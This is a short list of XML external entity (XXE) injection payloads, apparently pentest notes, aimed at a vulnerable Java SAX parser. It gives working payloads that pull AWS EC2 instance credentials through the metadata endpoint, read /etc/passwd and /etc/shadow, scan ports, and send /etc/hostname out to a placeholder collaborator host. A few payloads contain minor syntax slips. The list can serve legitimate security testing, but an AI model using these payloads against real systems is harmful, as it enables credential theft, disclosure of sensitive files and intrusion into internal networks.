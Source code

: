 
Direct fetch output on screen

- SSRF (AWS EC2 credentials)

<!DOCTYPE foo [
    <!ENTITY exploit SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance">
]>
...
<sometag>&exploit;</sometag>

- Path traversal and fetching files

<!DOCTYPE foo [<!ENTITY exploit SYSTEM "file:///etc/passwd">]>
...
<sometag>&exploit<sometag>
...


Out of Bound XXE, confirmed using Collaborator

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY % xxe SYSTEM "file:///etc/hostname">
    <!ENTITY oobxxe SYSTEM "http://kisijrhufnshbsd.yourcollaboraterserverdomain/?%xxe;">]>
...
...
<Sometag>&oobxxe</Sometag>
...
...


Network enumeration (burp intruder)

<?xml version="1.0>
<!DOCTYPE foo [
<!ENTITY portscan SYSTEM "ftp://localhost"$$">    
]>
<foo>START_&portscan;_END</foo>


Path Traversal

<?xml version="1.0>
<!DOCTYPE foo [
<!ENTITY LFI SYSTEM "file:///etc/shadow/">    
]>
<foo>START_&LFI;_END</foo>



Note - these were found due to vulnerable JAVA SAX XML parser